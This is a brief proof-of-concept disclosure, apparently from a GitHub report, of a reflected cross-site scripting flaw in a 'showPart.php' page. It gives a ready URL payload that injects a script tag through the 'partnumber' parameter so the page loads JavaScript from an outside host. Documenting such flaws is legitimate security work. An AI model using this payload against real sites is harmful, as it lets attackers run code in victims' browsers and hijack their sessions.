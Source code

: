 PoC:

Payload:
```
http://<url>/showPart.php?partnumber=<script+src%3D%2F%2F2c.io>&submit=Go
```

The result, it will GET the link: 2c.io (this link is sample, the attacker can design with 5 characters to exploit).

![imgXSS](image.png)
